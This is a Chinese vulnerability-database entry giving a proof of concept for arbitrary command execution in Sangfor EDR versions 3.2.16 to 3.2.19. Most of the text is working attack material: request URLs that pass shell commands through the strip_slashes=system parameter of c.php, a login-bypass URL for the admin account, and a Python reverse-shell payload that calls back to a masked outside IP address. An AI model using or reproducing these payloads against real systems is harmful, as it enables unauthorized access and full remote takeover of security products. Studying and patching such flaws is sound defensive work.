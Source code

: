 ```yaml
---
title: '深信服EDR任意命令执行漏洞'
date: Fri, 04 Sep 2020 05:26:04 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EDR 3.2.16、3.2.17、3.2.19

### 漏洞POC

参数host/path/row/limit=命令 即可执行命令

```
https://*****/tool/log/c.php?strip_slashes=system&host=id
https://*****/tool/log/c.php?strip_slashes=system&path=id
https://*****/tool/log/c.php?strip_slashes=system&row=id
https://*****/tool/log/c.php?strip_slashes=system&limit=id
```



```bash
#越权登录
https://ip:xx/ui/login.php?user=admin   #(用户名必须存在)
#命令执行
https://xx.xx.xx.37/tool/log/c.php?strip_slashes=system&host=id
https://xx.xx.xx.37/tool/log/c.php?strip_slashes=system&host=whoami
#反弹shell
https://xx.xx.xx.37/tool/log/c.php?strip_slashes=system&path=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('xx.xx.xx.105',1919));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![img](深信服EDR任意命令执行漏洞/17716535-3fce5fccf8781948.jpg)

1.jpg

![img](深信服EDR任意命令执行漏洞/17716535-cebfc356f6d83985.jpg)

2.jpg

![img](深信服EDR任意命令执行漏洞/17716535-6058fa3d680f982e.jpg)

3.jpg